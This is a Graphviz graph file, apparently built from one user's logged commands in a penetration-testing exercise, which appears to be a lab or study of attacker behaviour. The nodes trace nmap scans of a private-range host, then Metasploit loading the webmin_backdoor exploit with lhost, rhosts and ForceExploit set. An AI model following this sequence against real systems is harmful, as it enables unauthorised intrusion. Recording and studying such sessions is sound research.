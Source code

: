// creating graph for user: 91
digraph {
	node [shape=box]
	0 [label="nmap -h A0 A1 "]
	1 [label="nmap -h A0 A1 "]
	2 [label="nmap -p 1-65535 172.18.1.5 M0 "]
	3 [label="nmap -A -p 10000 172.18.1.5 A1 "]
	4 [label="msfconsole M2 "]
	5 [label="use exploit/linux/http/webmin_backdoor M8 "]
	7 [label="search webmin M3 "]
	9 [label="show options M5 "]
	10 [label="set lhost 10.1.135.83 A6 "]
	11 [label="set rhosts 172.18.1.5 A6 "]
	15 [label="set srvhost 10.1.135.83 A6 "]
	18 [label="set ForceExplot A6 "]
	19 [label="set ForceExploit A6 "]
	20 [label="set ForceExploit true A6 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 7 [constraint=false]
	7 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 15 [constraint=false]
	15 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	rankdir=LR
}
